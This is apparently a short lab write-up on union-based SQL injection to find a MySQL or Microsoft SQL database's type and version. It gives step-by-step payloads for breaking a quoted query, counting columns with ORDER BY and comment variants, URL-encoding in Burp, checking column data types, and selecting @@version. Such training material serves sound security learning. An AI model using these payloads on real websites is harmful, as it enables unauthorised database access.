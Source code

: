 # Database type and version on MYSQL and Microsoft

query for version checking  version 

```
select @@version
```

end goal : database type and version

```
' union select @@version 
```
this query resulted in internal server error 

lets try to find out the number of columns

```
' order by 1-- // this comment sequence is not allowed here 
```

try some other methods for comment and always take space after comments
```
#
---
/**/
```

lets go with hash
```
' order by 1#
' order by 2#
```
got two columns , here we need to encode our query in url encode 

for that if you are in burp select the query and press <b>ctrl+u</b> or online url encoder

Data types check

```
' union select 'a','a'# 
```

both column contains text 

payload

```
' union select @@version, NULL# 
```